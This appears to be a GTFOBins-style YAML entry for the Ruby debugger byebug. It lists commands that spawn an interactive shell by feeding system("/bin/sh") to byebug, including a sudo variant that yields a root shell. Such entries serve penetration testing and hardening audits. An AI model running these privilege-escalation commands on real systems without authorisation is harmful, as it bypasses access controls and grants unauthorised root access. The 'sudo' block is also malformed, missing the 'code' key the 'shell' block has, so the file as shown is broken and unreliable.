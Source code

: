```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        byebug $TF
        continue
  sudo:
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        sudo byebug $TF
        continue
---
```

